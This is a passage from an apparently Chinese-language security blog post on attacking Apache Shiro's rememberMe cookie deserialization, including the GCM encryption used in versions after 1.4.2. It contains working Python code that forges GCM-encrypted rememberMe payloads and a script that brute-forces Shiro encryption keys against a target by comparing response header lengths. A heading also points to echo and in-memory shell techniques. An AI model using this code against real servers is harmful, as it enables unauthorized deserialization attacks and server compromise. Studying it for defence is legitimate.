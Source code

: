 而在 1.4.2 以后由于 padding oracle 的影响，shiro 官方把加密方式改为了 GCM，所以我们需要更改脚本，添加 GCM 下的攻击方式去攻击高版本的 shiro，通过跟踪代码动态调试可以看出确实是使用 GCM 加密

![](https://mmbiz.qpic.cn/mmbiz_png/GzdTGmQpRic2yqxwSXicicJiatWkGvAvvu4zuDO8xabqicYD6pTcygDNX654ciaEia0ibmj4icClJMcz1BOahHylMoibdgyA/640?wx_fmt=png)

![](https://mmbiz.qpic.cn/mmbiz_png/GzdTGmQpRic2yqxwSXicicJiatWkGvAvvu4zq6v4RNqL0t7L5PczicNyJeHKiat5tNH4yxDnVOBH1Op7icV1EPibQq5xiaA/640?wx_fmt=png)

所以 shiro 的攻击脚本中的核心代码我们来修改一下, GCM 加密不需要 padding，但需要一个 MAC 值（也就是我代码里的 tag），这块可以自己跟一下源码，核心代码如下：  

```
iv = os.urandom(16)
    cipher = AES.new(base64.b64decode(key), AES.MODE\_GCM, iv)          
    ciphertext, tag = cipher.encrypt\_and\_digest(file\_body) 
    ciphertext = ciphertext + tag   
    base64\_ciphertext = base64.b64encode(iv + ciphertext)
    return base64\_ciphertext

```

##### 0x03：获得 key & 回显 & 内存 shell

从三月到八月有很多师傅写了很多文章集中在 shiro 的利用上，我也综合了各位师傅的想法和思路搞了一些脚本

1.key 检测：

以前的脚本批量检测 shiro 的存在或者说获得 key 我们用到最多的还是 ysoserial 中的 urldns 模块，不过这个有一个问题就是如果不出网的话会有问题，所以这里还有一个新的办法就是使用一个空的 SimPlePrincpalCollection 作为我们要序列化的对象，也就是构造一个正确的 rememberMe 触发反序列化，如果 key 是正确的，响应包中不会返回 rememberMe=deleteMe，这里一开始我想在脚本中通过检测返回包中是否有 deleteMe 关键字来做判断，结果发现有一些环境本身就会返回 rememberMe=deleteMe，因此最终选择了一个比较暴力的方式，关键代码如下

```
r1 = requests.get(target, cookies={'rememberMe': "123"}, timeout=10, proxies=PROXY,
                         verify=False, headers=myheader,allow\_redirects=False)
    rsp1=len(str(r1.headers))
 #这里我先给一个肯定不正确的rememberMe   
    try:
        for key in keys:
            print("\[-\] start key: {0}".format(key))
            if ciphertype == 'CBC':
                payload = CBCCipher(key,base64.b64decode(checkdata))
            if ciphertype == 'GCM':
                payload = GCMCipher(key,base64.b64decode(checkdata))

            payload = payload.decode()
        #print(payload)
            r = requests.get(target, cookies={'rememberMe': payload}, timeout=10, proxies=PROXY,
                         verify=False, headers=myheader,allow\_redirects=False)  # 发送验证请求
            rsp = len(str(r.headers))
            if rsp1 != rsp and r.status\_code != 400:
            #在这里和肯定不正确的返回包header的lenth做比较，如果有差异，则是正确的的key
                print("!! Get key: {0}".format(key))
                exit()

```
